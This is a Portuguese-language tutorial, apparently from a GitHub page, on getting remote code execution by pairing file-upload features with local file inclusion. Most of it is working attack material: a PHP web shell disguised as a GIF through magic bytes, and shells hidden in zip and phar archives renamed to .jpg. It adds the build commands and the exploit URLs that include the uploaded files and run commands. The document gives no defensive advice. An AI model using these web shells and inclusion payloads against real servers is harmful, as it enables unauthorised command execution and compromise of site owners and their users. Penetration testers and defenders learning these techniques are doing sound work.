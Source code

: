 # Exploração de Vulnerabilidades LFI com Upload de Arquivos

## Introdução
As funcionalidades de upload de arquivos são comuns em aplicativos da web modernos, pois permitem que usuários enviem dados e personalizem seus perfis. No entanto, essa funcionalidade pode ser explorada por invasores para armazenar arquivos maliciosos no servidor e executar código remotamente, especialmente quando combinada com vulnerabilidades de inclusão de arquivos locais (LFI).

## Inclusão de Arquivo com Imagem Maliciosa

### Criação da Imagem Maliciosa
**Objetivo:** Disfarçar código malicioso em um arquivo de imagem.

**Como funciona:** Arquivos de imagem geralmente são permitidos em uploads. Ao iniciar o arquivo com bytes mágicos de imagem (ex: `GIF8` para GIFs) e inserir código PHP malicioso, podemos enganar o sistema para aceitar o upload.

**Exemplo:**
```sh
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
Explicação: A string GIF8 representa o cabeçalho de um arquivo GIF, e o código PHP embutido será executado se incluído através de uma vulnerabilidade LFI.

### Upload da Imagem
Passos:
Navegar até a página de configurações de perfil do aplicativo.
Fazer upload da imagem maliciosa (shell.gif).
Por que funciona: O sistema de upload verifica a extensão e os bytes mágicos, mas não o conteúdo completo do arquivo.

Inclusão do Arquivo Carregado
Obtenção do caminho do arquivo: Após o upload, inspecione o código fonte da página para encontrar a URL do arquivo.
Exemplo:
html
```sh
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```
Uso da vulnerabilidade LFI: A URL do arquivo é usada para incluir e executar o código PHP embutido:

http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id
Resultado: O código PHP no arquivo é executado no servidor, permitindo a execução remota de comandos.

Uso do Wrapper Zip
Criação do Arquivo Zip
Objetivo: Esconder um script PHP malicioso dentro de um arquivo zip e renomeá-lo para uma extensão permitida (ex: .jpg).

Como funciona: Arquivos zip podem conter qualquer tipo de arquivo. Ao renomeá-lo para .jpg, tentamos contornar verificações de tipo de arquivo.

**Exemplo:**
```sh
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```
Upload do Arquivo Zip
Passos:
Fazer upload do arquivo shell.jpg.
Por que funciona: Alguns sistemas permitem arquivos zip, mas não verificam adequadamente o conteúdo após a renomeação.

Inclusão do Arquivo Zip
Uso da vulnerabilidade LFI com wrapper zip:

```html
http://test.com/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```
Resultado: O código PHP dentro do arquivo zip é executado.

### Uso do Wrapper Phar
Criação do Arquivo Phar
Objetivo: Esconder um script PHP malicioso dentro de um arquivo phar e renomeá-lo para uma extensão permitida (ex: .jpg).

Como funciona: Arquivos phar podem embutir arquivos PHP. Ao renomeá-lo, tentamos contornar verificações de tipo de arquivo.

Exemplo:
```sh
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
?>
```
Compilação e renomeação:
```sh
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

## Upload do Arquivo Phar
Passos:
Navegar até a página de configurações de perfil.
Fazer upload do arquivo shell.jpg.
Por que funciona: Alguns sistemas permitem arquivos phar, mas não verificam adequadamente o conteúdo após a renomeação.

Inclusão do Arquivo Phar
Uso da vulnerabilidade LFI com wrapper phar:

```html
http://test.com/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```
Resultado: O código PHP dentro do subarquivo phar é executado.

## Conclusão
Cada método explora a funcionalidade de upload de arquivos para armazenar código malicioso no servidor, que é então executado através de uma vulnerabilidade LFI. A escolha do método depende das permissões de upload do servidor e das configurações de segurança.

Método da imagem maliciosa: Mais simples e direto, utiliza imagens comuns.
Wrapper zip: Útil quando arquivos zip são permitidos, mas requerem renomeação.
Wrapper phar: Uma alternativa quando outros métodos falham, aproveitando a capacidade de arquivos phar embutirem scripts PHP.